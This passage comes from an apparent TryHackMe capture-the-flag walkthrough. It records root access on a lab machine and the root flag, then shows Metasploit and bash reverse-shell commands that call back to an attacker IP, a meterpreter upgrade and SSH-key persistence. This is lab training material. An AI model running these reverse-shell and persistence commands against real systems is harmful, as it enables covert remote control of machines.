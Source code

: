 		# whoami
		root
		# hostname
		THM-Chal
		```
	15. `cat /root/root.txt`
		**Root Flag:** `THM{6637f41d0177b6f37cb20d775124699f}`
	16. Get more stable shell
		* Form reverse meterpreter
			```
			sudo msfconsole
			use exploit/multi/handler
			set lhost 10.9.53.2
			set lport 7845
			set payload linux/x86/shell/reverse_tcp
			run
			```
		* Bash reverse shell
			```
			bash -c 'bash -i >& /dev/tcp/10.9.53.2/7845 0>&1'
			```
	17. Upgrade to meterpreter
		```
		use post/multi/manage/shell_to_meterpreter
		set session 1
		run
		```
	18. Allow access in at any time with SSH
		```
		use post/linux/manage/sshkey_persistence
		set session 2
		set CREATESSHFOLDER true
		run
		```
		And then in normal attacker prompt:
		
		```
		sudo chmod 400 /root/.msf4/loot/20200508020414_default_10.10.95.161_id_rsa_954950.txt
		sudo ssh -o "IdentitiesOnly=yes" -i /root/.msf4/loot/20200508020414_default_10.10.95.161_id_rsa_954950.txt root@10.10.95.161
		```


